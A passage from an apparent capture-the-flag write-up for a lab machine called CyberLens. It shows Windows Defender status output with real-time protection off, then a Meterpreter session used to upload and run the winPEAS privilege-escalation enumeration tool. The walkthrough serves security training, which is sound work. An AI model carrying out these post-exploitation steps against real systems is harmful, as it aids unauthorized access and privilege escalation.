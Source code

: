 ```bash
  IsTamperProtected                : False
  IsVirtualMachine                 : True
  LastFullScanSource               : 0
  LastQuickScanSource              : 0
  NISEnabled                       : False
  NISEngineVersion                 : 0.0.0.0
  NISSignatureAge                  : 4294967295
  NISSignatureLastUpdated          : 
  NISSignatureVersion              : 0.0.0.0
  OnAccessProtectionEnabled        : False
  ProductStatus                    : 1
  QuickScanAge                     : 4294967295
  QuickScanEndTime                 : 
  QuickScanOverdue                 : False
  QuickScanSignatureVersion        : 
  QuickScanStartTime               : 
  RealTimeProtectionEnabled        : False
  RealTimeScanDirection            : 0
  RebootRequired                   : False
  SmartAppControlExpiration        : 
  SmartAppControlState             : 
  TamperProtectionSource           : N/A
  TDTMode                          : N/A
  TDTSiloType                      : N/A
  TDTStatus                        : N/A
  TDTTelemetry                     : N/A
  TroubleShootingDailyMaxQuota     : 
  TroubleShootingDailyQuotaLeft    : 
  TroubleShootingEndTime           : 
  TroubleShootingExpirationLeft    : 
  TroubleShootingMode              : 
  TroubleShootingModeSource        : 
  TroubleShootingQuotaResetTime    : 
  TroubleShootingStartTime         : 
  PSComputerName                   :
```

The cmdlet indicated that no antivirus mechanism were active, so I proceeded to download and execute `winPEAS`:
```bash
PS C:\> $env:PROCESSOR_ARCHITECTURE
  $env:PROCESSOR_ARCHITECTURE
  x86
PS C:\> exit
meterpreter > cd C:\\Users\\CyberLens\\Desktop\\
meterpreter > upload winPEASx86.exe
  [*] Uploading  : /home/kali/ctf/cyberlens/winPEASx86.exe -> winPEASx86.exe
  [*] Uploaded 8.00 MiB of 9.67 MiB (82.69%): /home/kali/ctf/cyberlens/winPEASx86.exe -> winPEASx86.exe
  [*] Uploaded 9.67 MiB of 9.67 MiB (100.0%): /home/kali/ctf/cyberlens/winPEASx86.exe -> winPEASx86.exe
  [*] Completed  : /home/kali/ctf/cyberlens/winPEASx86.exe -> winPEASx86.exe

meterpreter > shell
  C:\Users\CyberLens\Dekstop> winPEASx86.exe
```
